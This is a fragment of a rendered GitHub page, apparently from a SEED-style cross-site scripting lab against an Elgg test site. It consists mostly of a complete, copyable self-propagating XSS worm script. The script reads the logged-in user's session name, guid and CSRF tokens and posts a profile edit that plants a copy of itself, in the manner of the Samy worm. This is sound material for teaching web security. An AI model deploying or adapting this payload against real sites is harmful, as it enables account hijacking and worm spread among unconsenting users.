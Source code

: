       <span class="pl-v">Ajax</span><span class="pl-kos">.</span><span class="pl-en">setRequestHeader</span><span class="pl-kos">(</span><span class="pl-s">"Host"</span><span class="pl-kos">,</span> <span class="pl-s">"www.xsslabelgg.com"</span><span class="pl-kos">)</span><span class="pl-kos">;</span>
      <span class="pl-v">Ajax</span><span class="pl-kos">.</span><span class="pl-en">setRequestHeader</span><span class="pl-kos">(</span>
        <span class="pl-s">"Content-Type"</span><span class="pl-kos">,</span>
        <span class="pl-s">"application/x-www-form-urlencoded"</span>
      <span class="pl-kos">)</span><span class="pl-kos">;</span>
      <span class="pl-v">Ajax</span><span class="pl-kos">.</span><span class="pl-en">send</span><span class="pl-kos">(</span><span class="pl-s1">content</span><span class="pl-kos">)</span><span class="pl-kos">;</span>
    <span class="pl-kos">}</span>
  <span class="pl-kos">}</span><span class="pl-kos">;</span>
<span class="pl-kos">&lt;/</span><span class="pl-ent">script</span><span class="pl-kos">&gt;</span></pre><div class="zeroclipboard-container position-absolute right-0 top-0">
    <clipboard-copy aria-label="Copy" class="ClipboardButton btn js-clipboard-copy m-2 p-0 tooltipped-no-delay" data-copy-feedback="Copied!" data-tooltip-direction="w" value="<script type=&quot;text/javascript&quot; id=&quot;worm&quot;>
  window.onload = function () {
    var headerTag = '<script id=&quot;worm&quot; type=&quot;text/javascript&quot;>';
    var jsCode = document.getElementById(&quot;worm&quot;).innerHTML;
    var tailTag = &quot;</&quot; + &quot;script>&quot;;
    var wormCode = encodeURIComponent(headerTag + jsCode + tailTag);
    //JavaScript code to access user name, user guid, Time Stamp __elgg_ts
    //and Security Token __elgg_token

    var userName = &quot;&amp;name=&quot; + elgg.session.user.name;
    var guid = &quot;&amp;guid=&quot; + elgg.session.user.guid;
    var ts = &quot;&amp;__elgg_ts=&quot; + elgg.security.token.__elgg_ts;
    var token = &quot;&amp;__elgg_token=&quot; + elgg.security.token.__elgg_token;
    var description =
      &quot;&amp;description=<p>modified by Samy<p>&quot; +
      wormCode +
      &quot;&amp;accesslevel[description]=2&quot;;
    //Construct the content of your url.
    var sendurl = &quot;http://www.xsslabelgg.com/action/profile/edit&quot;;
    var content = userName + guid + ts + token + description;
    var samyGuid = 47;
    if (elgg.session.user.guid != samyGuid) {
      //Create and send Ajax request to modify profile
      var Ajax = null;
      Ajax = new XMLHttpRequest();
      Ajax.open(&quot;POST&quot;, sendurl, true);
      Ajax.setRequestHeader(&quot;Host&quot;, &quot;www.xsslabelgg.com&quot;);
      Ajax.setRequestHeader(
        &quot;Content-Type&quot;,
        &quot;application/x-www-form-urlencoded&quot;
      );
      Ajax.send(content);
    }
  };
</script>
" tabindex="0" role="button">
      <svg aria-hidden="true" height="16" viewBox="0 0 16 16" version="1.1" width="16" data-view-component="true" class="octicon octicon-copy js-clipboard-copy-icon m-2">
    <path fill-rule="evenodd" d="M0 6.75C0 5.784.784 5 1.75 5h1.5a.75.75 0 010 1.5h-1.5a.25.25 0 00-.25.25v7.5c0 .138.112.25.25.25h7.5a.25.25 0 00.25-.25v-1.5a.75.75 0 011.5 0v1.5A1.75 1.75 0 019.25 16h-7.5A1.75 1.75 0 010 14.25v-7.5z"></path><path fill-rule="evenodd" d="M5 1.75C5 .784 5.784 0 6.75 0h7.5C15.216 0 16 .784 16 1.75v7.5A1.75 1.75 0 0114.25 11h-7.5A1.75 1.75 0 015 9.25v-7.5zm1.75-.25a.25.25 0 00-.25.25v7.5c0 .138.112.25.25.25h7.5a.25.25 0 00.25-.25v-7.5a.25.25 0 00-.25-.25h-7.5z"></path>
</svg>
      <svg aria-hidden="true" height="16" viewBox="0 0 16 16" version="1.1" width="16" data-view-component="true" class="octicon octicon-check js-clipboard-check-icon color-text-success d-none m-2">
